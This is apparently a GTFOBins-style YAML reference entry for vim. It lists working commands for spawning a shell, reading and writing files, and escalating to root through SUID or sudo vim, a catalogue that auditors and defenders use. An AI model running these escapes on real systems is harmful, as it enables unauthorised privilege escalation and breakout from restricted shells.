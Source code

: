 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
    - description: This requires that `vim` is compiled with Python support.
      code: vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  suid:
    - code: ./vim -c ':!/bin/sh -p'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - description: This requires that `vim` is compiled with Python support.
      code: sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

